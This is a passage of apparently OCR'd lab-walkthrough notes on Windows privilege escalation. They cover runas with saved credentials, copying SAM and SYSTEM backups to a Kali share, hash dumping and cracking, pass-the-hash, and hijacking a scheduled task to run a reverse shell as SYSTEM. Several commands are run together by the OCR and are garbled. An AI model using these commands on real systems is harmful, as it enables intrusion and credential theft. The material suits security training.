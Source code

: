         Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:
        
        `runas /savecred /user:admin C:\PrivEsc\reverse.exe`
        
    - Security Account Manager
        
        The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.
        
        Transfer the SAM and SYSTEM files to your Kali VM:
        
        `copy C:\Windows\Repair\SAM \\10.10.10.10\kali\copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\`
        
        On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:
        
        `git clone https://github.com/Tib3rius/creddump7pip3 install pycryptopython3 creddump7/pwdump.py SYSTEM SAM`
        
        Crack the admin NTLM hash using hashcat:
        
        `hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`
        
        You can use the cracked password to log in as the admin using winexe or RDP.
        
    - Passing the Hash
        
        Why crack a password hash when you can authenticate using the hash?
        
        Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:
        
        `pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe`
        
    

# Schedule Tasks

- Schedule Tasks
    
    View the contents of the C:\DevTools\CleanUp.ps1 script:
    
    `type C:\DevTools\CleanUp.ps1`
    
    The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:
    
    `C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`
    
    Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:
    
    `echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`
    
    Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.
    

# Insecure GUI Apps
